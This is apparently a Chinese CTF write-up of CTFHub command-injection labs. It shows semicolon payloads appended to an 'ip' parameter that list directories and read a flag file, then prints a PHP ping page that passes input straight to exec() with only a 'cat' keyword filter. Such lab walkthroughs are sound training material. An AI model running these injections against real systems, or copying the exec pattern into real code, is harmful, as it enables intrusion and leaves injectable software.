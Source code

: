 通过代码审计 发现存在命令执行漏洞先随便ping个127.0.0.1查看是否有回显位置

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736922681115-a8d400c5-92f4-4aa7-8774-c9e4a898bb90.png)

存在回显位置 通过分号输入想要执行的命令 先输入ls /查看根目录下的文件

```python
?ip=127.0.0.1;ls /
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736922802184-4c311947-b9c4-4e72-a0d4-8b39e0585686.png)

没有发现flag相关文件 查看下网址目录下的文件

```python
?ip=127.0.0.1;ls
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736922889279-e215890a-1cb9-476c-999d-cb5c59224cde.png)

发现较为可疑的 298771494526771.php   尝试利用cat读取flag

```python
?ip=127.0.0.1;cat 298771494526771.php
```

 刚开始没看到flag 还以为命令有错 但是打开源代码发现了flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736923111276-d69f1141-507c-445a-9537-8115683f83db.png)

### 过滤cat
```python

CTFHub 命令注入-过滤cat
IP :

<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/cat/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>CTFHub 命令注入-过滤cat</title>
</head>
<body>

<h1>CTFHub 命令注入-过滤cat</h1>

<form action="#" method="GET">
    <label for="ip">IP : </label><br>
    <input type="text" id="ip" name="ip">
    <input type="submit" value="Ping">
</form>

```